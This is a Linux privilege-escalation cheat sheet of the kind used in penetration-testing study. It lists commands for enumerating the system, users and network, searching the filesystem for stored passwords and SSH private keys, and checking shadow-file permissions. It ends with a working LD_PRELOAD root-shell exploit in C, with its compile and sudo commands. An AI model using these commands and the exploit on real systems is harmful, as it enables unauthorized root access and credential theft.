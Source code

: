 # 1. System Enumeration 

## Command 

1. hostname 
2. uname -a 
3. cat /etc/issue
4. cat /proc/version
5. lscpu 
6. ps aux | grep root 
7. ps aux | grep username 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 2. User Enumeration
 
## Command 

1. whoami 
2. id 
3. sudo -l 
4. cat /etc/passwd
5. cat /etc/passwd | cut -d : -f 1 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 3. Network Enumeration

## Command 

1. ifconfig 
2. ip a 
3. ip route || route 
4. arp -a 
5. ip neigh 
4. netstat -ano 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 4. Exploring Automated Tools

#tools name 

1. linpeas
2. linEnum
3. linux-exploit-suggester
4. linixprivchecker.py

# 5. Kernel Exploits

## what is a kernel ?

   * A computer program that control everthing in the system 
   * Facikitates interactions between hardware & software components 
   * A translator
    
## Resource 

* github - https://github.com/lucyoa/kernel-exploits


# 5.1 Escalation via Kernel Exploit
    
# manual 

1. uname -a 
2. copy karnel version & search exploit in Google 

# Automation 

1. linux-exploit-suggester
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 6. Escalation Path - Passwords & File Permissions

# 6.1 Escalation via Stored Passwords

# Command :

* history 
* cat bash_history 

# Automation 

* grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
* find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;



# 6.2 Escalation via Weak File Permissions

* ls -la /etc/passwd
* ls -la /etc/shadow
# not vuln

┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/passwd
-rw-r--r-- 1 root root 2.8K Dec 10 00:12 /etc/passwd

┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/shadow
-rw-r----- 1 root shadow 1.5K Dec  9 20:45 /etc/shadow

# vuln 
┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/passwd
-rw-r--r-- 1 root root 2.8K Dec 10 00:12 /etc/passwd

┌(^.^)-(zapstiko@parrot)-(~)
└─»(★)ls -la /etc/shadow
# -rw-rw-r-- 1 root shadow 1.5K Dec  9 20:45 /etc/shadow


# 6.3 Escalation via SSH Keys

# Find Command 

* find / -name authorized_keys 2> /dev/null
* find / -name id_rsa 2> /dev/null
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 7. Escalation Path - Sudo

# checking command 

* sudo -l 
# LD_PRELOAD

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

* gcc -fPIC -shared -o shell.so shell.c -nostartfiles
* sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

** GTFObin
























